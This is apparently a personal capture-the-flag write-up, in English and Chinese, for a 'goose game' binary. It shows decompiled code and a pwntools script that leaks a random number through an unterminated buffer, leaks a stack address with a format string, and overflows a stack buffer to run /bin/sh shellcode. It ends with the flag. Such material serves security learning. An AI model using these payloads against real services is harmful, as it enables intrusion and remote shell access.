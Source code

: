 # 1.0 Challenge
1. how to predict the rand ?
2. Python’s way of **getting the first byte as an integer**.
3. what position to format string
4. ret2libc or ret2shellcode
5. how to find buffer address
6. why need asm nop in shellcode

# 2.0 Analysis

CODE FLOW
write ur name
```
__int64 setuser()
{
  puts(
    "Welcome to the goose game.\n"
    "Here you have to guess a-priori, how many HONKS you will receive from a very angry goose.\n"
    "Godspeed.");
  printf("How shall we call you?\n> ");
  return __isoc99_scanf("%64s", username);
}
```

find random number -> next level
```
_BOOL8 guess()
{
  int v1; // [rsp+8h] [rbp-8h] BYREF
  int i; // [rsp+Ch] [rbp-4h]

  v1 = 0;
  i = 0;
  printf(
    "%s\n\nso %s. how many honks?",
    "\n"
    "                                                        _...--. \n"
    "                                        _____......----'     .' \n"
    "                                  _..-''                   .' \n"
    "                                .'                       ./ \n"
    "                        _.--._.'                       .' | \n"
    "                     .-'                           .-.'  / \n"
    "                   .'   _.-.                     .     ' \n"
    "                 .'  .'   .'    _    .-.        / `./  : \n"
    "               .'  .'   .'  .--' `.  |    |`. |     .' \n"
    "            _.'  .'   .' `.'       `-'    / |.'   .' \n"
    "         _.'  .-'   .'     `-.            `      .' \n"
    "       .'   .'    .'          `-.._ _ _ _ .-.    : \n"
    "      /    /o _.-'               .--'   .'      | \n"
    "    .'-.__..-'                  /..    .`    / .' \n"
    "  .'   . '                       /.'/.'     /  | \n"
    " `---'                                   _.'   ' \n"
    "                                       /.'    .' \n"
    "                                        /.'/.' \n",
    username);
  __isoc99_scanf("%d", &v1);
  putchar(10);
  for ( i = 0; i < nhonks; ++i )
    printf(" HONK ");
  putchar(10);
  return v1 == nhonks;
}
```

next level have more input 
```
int highscore()
{
  char buf[128]; // [rsp+0h] [rbp-170h] BYREF
  char s[128]; // [rsp+80h] [rbp-F0h] BYREF
  _BYTE v3[32]; // [rsp+100h] [rbp-70h] BYREF
  char format[80]; // [rsp+120h] [rbp-50h] BYREF

  strcpy(format, "wow %s you're so good. what message would you like to leave to the world?");
  printf("what's your name again?");
  __isoc99_scanf("%31s", v3);
  s[31] = 0;
  sprintf(s, format, v3);
  printf(s);
  read(0, buf, 0x400u);
  return printf("got it. bye now.");
}
```
# 3.0 Solution

前期准备
```
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
context.arch='amd64'
context.os = "linux"
 
pc = "./chall_patched"

scripts = """
break *highscore+281
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == '1':
        r= process(pc)
        elf = ELF(pc)
        libc = elf.libc
    else:
        r=remote("34.45.81.67",16004)
        elf = ELF(pc)
        libc = elf.libc
 
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda n : r.recv(n)
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)
```

## 3.1 LEAK RAND 
因为scanf("%64s", username);
没有null terminate 所以如果我们刚刚好 64个 没有\x00
就会带出下一个byte which continue printing until it finds a `\x00`

所以 b'a' * 64 可以看到 多出一个 ) 
![[./attachments/Pasted image 20250715004319.png]]

问题来了 怎样转成 int 
-> Python’s way of **getting the first byte as an integer**.
`guess = rc(1)[0]` 就ok 了 ????
第一次知道

```python
# dbgstart()
# p = b'a'*0x20
# leak random number  
sla("> ",b'a'*64)
ru(b'a'*64)
guess = rc(1)[0]
print("guess here >>",guess)
sla("honks?", str(guess).encode())
```

## 3.2 FORMAT STRING
what position to format string ????
为什么有 FS
![[./attachments/Pasted image 20250715004658.png]]
这个很搞笑 我直接 %p
然后就有
![[./attachments/Pasted image 20250715004719.png]]
然后就 gdb 找 这个是什么 tele xxxx
他是一个stack leak 没有什么用
这种时候 只能靠 offset 了
先把他变美美
```python
# format string
payload = b'%p %p %p %p %p %p %p %p'
sla("again?",payload)
ru("wow ")

# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
```

如果有leak 要想的是 ret2libc or ret2shellcode (NO NX)

ROP 我不会也找不到 libc 所以就算 shellcode
## 3.3 FIND BUFFER ADDRESS
how to find buffer address
开 dbgstart() 定位read 然后 send aaaabbbb
![[./attachments/Pasted image 20250715005607.png]]
算offset 罢了 leak - buf = 0x150, stack leak - 0x150 就是 buf 了
```python
# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
sla("world?",b'aaaabbbb')
buf = 0x7ffd13969b20
leak = 0x7ffd13969c70
shellcode_offset =  leak - buf
shellcode_address = stack_leak - shellcode_offset
print("offset >>>",shellcode_offset)
print("shell addr >>>",hex(shellcode_address))
```

## 3.4 SHELLCODE FORMAT
rmb the ret2shellcode format 一定要记得有这个东西 
shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
我发现两个都可以用 然后 arch 要 amd64
```python
# shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
# shellcode = asm(shellcraft.sh())

# self shellcode payload 
payload = shellcode
payload += b'a'*(0x170 + 8 -len(shellcode))
payload += p64(shellcode_address)

```
4. why need asm nop in shellcode -> 感觉是不需要 可是 有人用 就 ok ?
```
# w2 payload
# payload = asm('nop')*100
# payload += shellcode
# payload += b'a'*(0x170 +8 - 100 -len(shellcode))
# payload += p64(stack_leak-0x150)
```

## 3.5 FULL SCRIPT
![[./attachments/c2 2.py]]
# 4.0 FLAG 
find / -name * flag*
cat /flag

L3AK{H0nk_m3_t0_th3_3nd_0f_l0v3}